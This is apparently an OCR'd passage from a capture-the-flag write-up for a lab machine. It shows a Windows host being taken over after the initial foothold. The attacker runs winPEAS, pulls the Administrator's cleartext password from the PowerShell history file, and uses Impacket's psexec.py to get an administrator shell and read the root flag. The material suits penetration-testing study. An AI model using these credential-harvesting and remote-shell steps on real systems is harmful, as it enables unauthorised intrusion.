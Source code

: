             C:\Users\sql_svc\Desktop>dir
            dir
             Volume in drive C has no label.
             Volume Serial Number is 9565-0B4F
            
             Directory of C:\Users\sql_svc\Desktop
            
            08/18/2025  09:17 AM    <DIR>          .
            08/18/2025  09:17 AM    <DIR>          ..
            02/25/2020  07:37 AM                32 user.txt
            08/18/2025  09:17 AM         1,930,752 winPEASx64.exe
                           2 File(s)      1,930,784 bytes
                           2 Dir(s)  10,721,677,312 bytes free
________________________________________________________________________________________________________________________

### Execution ###
""" executing the winPeasx64 file we downloaded on the victim system: """
    .\winPEASx64.exe

We will read the PowerShell history file, which is the equivalent of bash_history for Linux systems

**The file ConsoleHost_history.txt can be located in the directory**
  `C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\` 

`We got in cleartext the password for the Administrator user which is`
 (********_*dm1n!!)
________________________________________________________________________________________________________________________

### Shell ###
"""We can now use the tool psexec.py again from the Impacket suite to """ 
         """ get a shell as the administrator: """

┌──(kali㉿kali)-[~/Documents/Archetype/impacket/examples]
└─$ python3 psexec.py administrator@<ip>
Impacket v0.13.0.dev0+20250814.3907.9282c9bb - Copyright Fortra, LLC and its affiliated companies

Password:
[*] Requesting shares on <ip>.....
[*] Found writable share ADMIN$
[*] Uploading file otaZVEzk.exe
[*] Opening SVCManager on <ip>.....
[*] Creating service ENjp on <ip>.....
[*] Starting service ENjp.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.
  C:\Windows{}> 
________________________________________________________________________________________________________________________

### Exploitation ###

C:\Windows{}> cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is 9565-0B4F

       Directory of C:\Users\Administrator\Desktop
      
      07/27/2021  02:30 AM    <DIR>          .
      07/27/2021  02:30 AM    <DIR>          ..
      02/25/2020  07:36 AM                32 root.txt
                     1 File(s)             32 bytes
                     2 Dir(s)  10,723,348,480 bytes free

C:\Users\Administrator\Desktop> type root.txt
(--GET-THIS--YOURSELF-------------) #root flag#
